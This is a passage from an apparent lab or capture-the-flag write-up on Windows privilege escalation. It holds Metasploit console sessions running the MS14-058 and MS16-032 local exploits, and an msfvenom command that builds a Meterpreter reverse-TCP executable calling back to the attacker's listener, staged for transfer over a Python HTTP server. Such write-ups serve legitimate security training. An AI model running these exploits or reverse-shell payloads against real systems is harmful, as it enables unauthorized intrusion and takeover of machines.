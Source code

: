 ```
lport => 4545
msf5 exploit(windows/local/ms14_058_track_popup_menu) > set session 1
session => 1
msf5 exploit(windows/local/ms14_058_track_popup_menu) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 10.10.x.x:4545 
[-] Exploit failed: NoMethodError undefined method `reverse!' for nil:NilClass
[*] Exploit completed, but no session was created.
```
Ah, SESSION may not be compatible with this module. This module was not successfully run.

Let's try `MS16-032`:
```
msf5 > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
[*] Using configured payload windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > show targets
...
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set target 1
target => 1
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > show options
...
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set lhost 10.10.14.15
lhost => 10.10.14.15
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set lport 4545
lport => 4545
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set session 1
session => 1
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 10.10.14.15:4545 
[-] Exploit aborted due to failure: none: Session is already elevated
[+] Deleted 
[*] Exploit completed, but no session was created.
```
Same thing, SESSION may not be compatible with this module. But Session is already elevated.. what??

## 6. Second Attempt on MS14-058 & MS16-032
Let's create a Meterpreter reverse shell payload, transfer and run it.
```
hippoeug@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=4545 -f exe -o meterpreter.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: meterpreter.exe
```
We now need to transfer this file over to the target machine. Using the previous infrastructure `sudo python -m SimpleHTTPServer 80`, we can host the file.
